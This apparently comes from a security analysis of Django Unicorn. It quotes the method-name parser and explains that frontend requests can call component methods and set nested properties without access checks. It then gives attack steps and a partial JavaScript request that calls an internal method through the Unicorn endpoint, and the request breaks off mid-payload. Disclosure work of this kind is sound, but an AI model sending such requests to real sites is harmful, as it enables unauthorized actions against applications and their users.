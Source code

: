### Source Code Analysis
In `call_method_parser.py`, the `parse_call_method_name` function is used to parse method names from strings:

```python
def parse_call_method_name(call_method_name: str) -> Tuple[str, Tuple[Any, ...], Mapping[str, Any]]:
    is_special_method = False
    args: List[Any] = []
    kwargs: Dict[str, Any] = {}
    method_name = call_method_name

    # Deal with special methods that start with a "$"
    if method_name.startswith("$"):
        is_special_method = True
        method_name = method_name[1:]

    tree = ast.parse(method_name, "eval")
    statement = tree.body[0].value

    if tree.body and isinstance(statement, ast.Call):
        call = tree.body[0].value
        method_name = call.func.id
        args = [eval_value(arg) for arg in call.args]
        kwargs = {kw.arg: eval_value(kw.value) for kw in call.keywords}

    # Add "$" back to special functions
    if is_special_method:
        method_name = f"${method_name}"

    return method_name, tuple(args), MappingProxyType(kwargs)
```

From the test files (test_set_property.py, test_toggle.py), we can see that Django Unicorn supports direct property setting through method calls (e.g., `count=2`) and special methods like `$toggle('check')`. These methods are processed without validating if they should be accessible from the frontend.

The test files also show that both simple and nested properties can be modified (e.g., `nested.check=True`), increasing the attack surface.

### Security Test Case
1. Identify a Django Unicorn application with publicly accessible components
2. Inspect the page source to find component names and IDs
3. Create an HTML page with JavaScript that sends an AJAX request to the Unicorn endpoint:
   ```javascript
   // Get CSRF token from the target site
   const csrfToken = document.querySelector('[name=csrfmiddlewaretoken]').value;

   fetch('/unicorn/message/path.to.component.ComponentName', {
     method: 'POST',
     headers: {
       'Content-Type': 'application/json',
       'X-CSRFToken': csrfToken
     },
     body: JSON.stringify({
       "actionQueue": [
         {
           "payload": {"name": "sensitive_internal_method()"},
           "type": "callMethod"
         }
       ],
       "data": {}, // Component data
       "checksum": "valid_checksum_here", // Get this by intercepting a legitimate request
       "id": "component_id_here", // Component ID from the DOM
   ```